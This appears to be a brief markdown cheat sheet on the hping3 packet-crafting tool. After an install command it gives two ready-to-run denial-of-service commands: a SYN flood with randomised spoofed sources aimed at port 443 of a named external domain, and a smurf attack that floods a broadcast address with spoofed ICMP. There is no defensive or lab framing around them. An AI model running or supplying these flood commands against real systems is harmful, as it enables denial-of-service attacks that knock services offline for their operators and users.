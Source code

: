 # hping3

>hping3 is a command-line utility for crafting and sending custom TCP/IP packets. It is a versatile tool that allows you to perform various tasks, such as network scanning, fingerprinting, and testing network security.

```
sudo apt install hping3
```
>SYN-FLOOD attack

```
hping3 --count 15000 --data 120 --syn --win 64 -p 443 --flood --rand-source www.ewubdserver.com
```
>Dos smurf attack

```
sudo hping3 --icmp --count 50000 --spoof 192.168.56.5 192.168.56.255 --flood
```